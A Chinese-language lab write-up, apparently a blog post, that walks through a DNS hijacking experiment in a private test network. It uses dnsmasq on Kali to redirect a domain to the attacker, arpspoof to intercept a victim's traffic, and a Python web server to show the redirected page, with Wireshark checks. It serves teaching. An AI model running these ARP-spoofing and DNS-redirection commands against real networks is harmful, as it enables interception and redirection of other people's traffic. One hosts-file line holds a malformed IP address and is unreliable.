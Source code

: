 ```yaml
---
title: DNS劫持实验
description: 本次实验旨在通过配置和使用 Kali Linux 中的 dnsmasq 服务，演示 DNS 劫持攻击的过程，并观察其对被攻击主机的影响
#cover: /cover/cover2.png
tag:
 - DNS
#sticky: 999
date: 2025-04-02 17:18
---
```

# DNS劫持实验

**注意:** 实验中的ip依自己的实验环境为准,注意替换

​		本文中攻击者kali主机的IP为`192.168.183.137` 

​					被攻击者ubuntu主机的IP为`192.168.183.136` 

​					网关为`192.168.183.2`

## 1.配置dnsmasq服务

* 安装dnsmasq

  ```bash
  sudo apt update
  sudo apt install dnsmasq
  ```

  

![image-20250402153451250](images/DNS劫持实验/image-20250402153451250.png)

* 配置dnsmasq

  ```bash
  sudo vim /etc/dnsmasq.conf
  ```

  在文件末尾添加配置:

  ```
  resolv-file=/etc/resolv.dnsmasq
  strict-order
  listen-address=192.168.183.137  # Kali IP
  address=/lanjinxin.com/192.168.183.137  # 将域名指向Kali自身
  server=8.8.8.8  # 上游DNS
  ```

  ![image-20250402163616376](images/DNS劫持实验/image-20250402163616376.png)

* 本地启用dnsmasq解析

  ```bash
  sudo vim /etc/resolv.conf
  ```

  修改dns服务器为kali ip

  ![image-20250402164008315](images/DNS劫持实验/image-20250402164008315.png)

* 在hosts文件中添加解析

  ```bash
  echo "192.168.183.137.10 lanjinxin.com" >> /etc/hosts
  ```

* 启动 dnsmasq 服务并设置开机自启动

  ```bash
  systemctl restart dnsmasq && systemctl enable dnsmasq
  ```

## 2.配置被攻击主机(Ubuntu24.04)

* 修改主机hosts文件

```bash
sudo vim /etc/resolv.conf
```

![image-20250402164347315](images/DNS劫持实验/image-20250402164347315.png)

将nameserver 设置为kali ip `192.168.183.137`



##  3.使用 arpspoof 进行 ARP 欺骗

* 在 Kali Linux 上，使用 `arpspoof` 进行 ARP 欺骗，使得被攻击主机的流量通过攻击者主机：

  ```bash
  arpspoof -i eth0 -t [被攻击ip] -r [网关ip]
  ```

  ![image-20250402164940250](images/DNS劫持实验/image-20250402164940250.png)

​	*如果不知道网关ip可以使用以下指令查询:*

```bash
route -n | grep 'UG' | awk '{print $2}'
```

## 4.观察被攻击主机访问被劫持域名时的重定向情况

* 在kali主机上使用wireshark验证dns劫持重定向

![image-20250402165508341](images/DNS劫持实验/image-20250402165508341.png)

​	可见原向网关[192.168.183.2]查询dns的ubuntu主机[192.168.183.136]被kali劫持

* 在kali上搭建http服务器

  ```bash
  python3 -m http.server 80
  ```

  ![image-20250402165950014](images/DNS劫持实验/image-20250402165950014.png)

  kali主机访问测试

  ![image-20250402170242885](images/DNS劫持实验/image-20250402170242885.png)

* 在被攻击主机上访问域名`lanjinxin.com`

![image-20250402170154024](images/DNS劫持实验/image-20250402170154024.png)

被攻击主机访问 `lanjinxin.com` 时显示的是 Kali Linux 上的 HTTP 服务器页面，说明 DNS 劫持成功。

* 在 Wireshark 中，可以观察到 DNS 请求和响应

![image-20250402170805657](images/DNS劫持实验/image-20250402170805657.png)

可见ubuntu主机[192.168.183.136]通过dns查询`lanjinxin.com`的ip被kali主机[192.168.183.137]劫持并将自己的ip作为目标ip返回给被攻击主机
